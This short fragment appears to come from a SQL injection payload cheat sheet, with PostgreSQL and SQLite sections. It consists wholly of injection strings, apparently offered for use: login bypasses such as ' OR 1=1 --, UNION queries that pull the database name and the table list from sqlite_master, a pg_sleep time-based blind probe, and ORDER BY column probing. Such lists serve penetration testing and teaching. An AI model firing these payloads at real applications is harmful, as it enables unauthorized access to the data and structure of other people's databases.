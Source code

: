 🦉 **PostgreSQL**
```SQL
' OR TRUE -- 
' UNION SELECT null, current_database() -- 
' AND pg_sleep(5) -- 
' AND 1=CAST('1' AS INTEGER) -- 
```

🧃 **SQLite**
```SQL
' OR 1=1 -- 
' UNION SELECT name FROM sqlite_master WHERE type='table' -- 
' AND 1=1 -- 
' ORDER BY 1 -- 
```

---

